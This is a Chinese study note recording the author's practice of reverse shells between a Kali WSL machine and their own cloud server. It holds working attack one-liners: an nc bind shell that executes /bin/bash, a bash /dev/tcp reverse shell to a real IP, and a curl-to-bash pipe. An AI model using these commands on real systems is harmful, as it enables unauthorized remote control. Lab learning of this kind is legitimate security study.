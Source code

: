 ## 反弹shell学习

> 之前了解过但是没有具体实践过，这里完成复现任务的时候，决定搞一下，记录一下
>
> 学m习采用一个本地wsl-kail 和 一台阿里云服务器，用的xshell

服务器安装netcat-由于阿里云服务器是centos

```bash
yum install nmap-ncat

#打开防火墙端口
firewall-cmd --zone=public --add-port=5432/tcp --permanent
firewall-cmd --reload
```



**nc命令开启本地监听端口**

```
nc -n -lvvp 5432 -t -e /bin/bash
```

这个命令会创建一个监听端口 5432 的 TCP 连接，当有别的机子连接到这个端口时，Netcat 会执行 `/bin/bash` 命令，提供一个 shell 环境给客户端。

![image-20240915135332508](C:/Users/lenovo/AppData/Roaming/Typora/typora-user-images/image-20240915135332508.png)

![image-20240915135433234](C:/Users/lenovo/AppData/Roaming/Typora/typora-user-images/image-20240915135433234.png)

![image-20240915135451415](C:/Users/lenovo/AppData/Roaming/Typora/typora-user-images/image-20240915135451415.png)



### Bash反弹shell

攻击机开启监听

```
nc -lvvp 5432
```

目标机连接攻击机

```bash
bash -i >& /dev/tcp/8.134.206.105/5432 0>&1
```

| 命令                        | 命令详解                                                     |
| --------------------------- | ------------------------------------------------------------ |
| bash -i                     | 产生一个bash交互环境。                                       |
| >&                          | 将联合符号前面的内容与后面相结合，然后一起重定向给后者。     |
| /dev/tcp/8.134.206.105/2333 | Linux环境中所有的内容都是以文件的形式存在的，其实大家一看见这个内容就能明白，就是让目标主机与攻击机47.xxx.xxx.72的2333端口建立一个tcp连接。 |
| 0>&1                        | 将标准输入与标准输出的内容相结合，                           |

![image-20240915140239404](https://gitee.com/bx33661/image/raw/master/path/image-20240915140239404.png)

![image-20240915140221988](https://gitee.com/bx33661/image/raw/master/path/image-20240915140221988.png)



### 利用curl配合bash反弹

由于一直失败，检查了一遍问题发现，应该是阿里云安全组没有设置好

![image-20240915214250717](https://gitee.com/bx33661/image/raw/master/path/image-20240915214250717.png)

```bash
curl 8.134.206.105:5432|bash
```

![image-20240915215528282](https://gitee.com/bx33661/image/raw/master/path/image-20240915215528282.png)
